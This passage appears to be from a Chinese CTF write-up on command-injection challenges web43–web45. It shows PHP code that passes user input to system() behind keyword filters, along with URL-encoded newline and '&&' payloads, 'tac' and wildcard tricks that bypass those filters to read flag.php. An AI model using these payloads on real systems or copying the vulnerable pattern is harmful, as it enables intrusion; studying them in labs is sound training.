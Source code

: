 过滤cat 和 分号

```cobol
payload1: ls%26%26ls
payload2: ls%0a
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d54069a9dfeea86f2051f3fe2bc62a78.png" alt="" style="max-height:102px; box-sizing:content-box;" />




```cobol
payload1:tac flag.php%0a
payload2 tac flag.php%26%26ls
```



pay



<img src="https://i-blog.csdnimg.cn/blog_migrate/f3ccc016f9e95ef1627759334f4a79db.png" alt="" style="max-height:227px; box-sizing:content-box;" />


## web44

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

加了过滤flag 可以使用模糊匹配

```cobol
payload1:tac fla?.php%0a
payload2 tac fla?.php%26%26ls
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/b7919ad7fde96d31d30603b49f14238c.png" alt="" style="max-height:180px; box-sizing:content-box;" />


## web45

```php
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
